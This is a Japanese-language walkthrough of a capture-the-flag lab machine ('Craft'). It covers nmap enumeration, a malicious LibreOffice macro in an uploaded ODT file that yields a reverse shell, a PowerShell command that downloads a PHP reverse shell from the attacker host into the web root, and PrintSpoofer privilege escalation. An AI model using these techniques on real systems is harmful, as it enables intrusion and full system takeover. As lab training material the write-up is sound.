

# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Thu Jul  4 22:56:55 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/xml/_full_tcp_nmap.xml 192.168.162.169
Nmap scan report for 192.168.162.169
Host is up, received user-set (0.097s latency).
Scanned at 2024-07-04 22:56:55 JST for 136s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Craft
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=80%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=6686AAAF%P=x86_64-pc-linux-gnu)
SEQ(SP=FF%GCD=1%ISR=10A%TS=U)
SEQ(SP=FF%GCD=1%ISR=10A%TI=I%TS=U)
OPS(O1=M551NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.87 ms 192.168.45.1
2   96.83 ms 192.168.45.254
3   97.18 ms 192.168.251.1
4   97.31 ms 192.168.162.169

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 22:59:11 2024 -- 1 IP address (1 host up) scanned in 135.76 seconds
```

Windowsにしては珍しく80番ポートしか開いていいなかった。

とりあえず、ウェブサイトにアクセスしてみる。


どこかの会社のホームページっぽい

ページを下にスクロールしていくと履歴書をアップロードするフォームを見つけた。


適当なファイルをアップロードしてみる。


`ODT`ファイルのみを受け付けているらしい。ODTファイルをアプリケーションする


正常にアップロードできた。

googleで `odt file exploit` で調べてみると`LibreOffice`と`OpenOffice`にRCEの脆弱性が発見されたという記事を見つけた。

[Severe RCE Flaw Disclosed in Popular LibreOffice and OpenOffice Software](https://thehackernews.com/2019/02/hacking-libreoffice-openoffice.html)

どうやらODTファイルを開く際のイベントに悪意のあるマクロを設定することによりRCEが発火するらしい

# Exploit

この脆弱性を悪用する以下のPoCを見つけた

[macro-generator](https://github.com/jotyGill/macro-generator)

まず、リバースシェルを作成する


ペイロードを配信するhttpサーバーを起動する


Microsoft Office および Libre Office に貼り付けるマクロを生成する

```
python3 macro-generator.py --host 192.168.45.171 --port 4444 -r ':8000/win/rshell.exe'
```

LibreOffice用のマクロを使用する


生成されたマクロをodtファイルに適用する

LibreOfficeを起動して ツール→マクロ→マクロの編集 に移動する


矢印がさしているボタンをからマクロの管理ページがひらくので新規作成を押し、適当な名前で保存する


以下のようになっていればOK


生成したマクロを貼り付ける


つづいてマクロをイベントに割り当てる。ツール→カスタマイズからイベントタグに移動し


矢印の順番にクリックし作成したマクロを選択肢OKを押す


シェルを受け取る待ち受けを設定する


作成したodtファイルをフォームにアップロードしてしばらく待つとhttpリクエストが届き、`thecybergeek`としてのシェルを取得できた。


# Privilege Escalation

## apache

`C:\Users` フォルダを見てみると管理者以外に`apache`というユーザーがいることが分かるので横移動する必要がありそう


Cドライブ直下にウェブサイトやウェブアプリケーションを開発・運用するための環境を簡単に構築できるソフトウェアである`xampp`というソフトウェアのフォルダを見つけた


xamppディレクトリ内を探索しているとWebサイトで動いていたであろう`upload.php`ファイルなどが見つかった。


`icacls` でアクセス権限を調べてみるとどのユーザにも書き込み権限、ファイルの追加権限が付与されているのでphp-reverse-shellをアップロードすることでユーザー`apache`に横移動できる可能性がある。


[Online Reverse Shell Generator](https://www.revshells.com/) で作成したWindowsようにphpリバースシェルを作成して`C:\xampp\htdocs` にアップロードする

pythonでサーバーを起動して以下のコマンドからファイルをダウンロードする

```
(New-Object Net.WebClient).DownloadFile("http://192.168.45.171:8000/rev.php","c:\xampp\htdocs\rev.php")
```

待ち受けようのリスナー起動して ウェブサイトから `rev.php` にアクセスする


`apache` として横移動に成功した

## Administrator

`whoami /priv` で権限の確認をしてみると `SeImpersonatePrivilege` が有効になっていた。



この権限は`JuicyPotato` や `PrintSpoofer` を使用することで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用し権限の昇格を行える可能性がある。

必要になる`nc.exe`と`PrintSpoofer.exe`をダウンロードする


攻撃側マシンでリスナー設定し以下のように `PrintSpoofer` を実行する


`nt authority\system`  としてシェルを獲得できた


`local.txt` を獲得


`proof.txt` を獲得


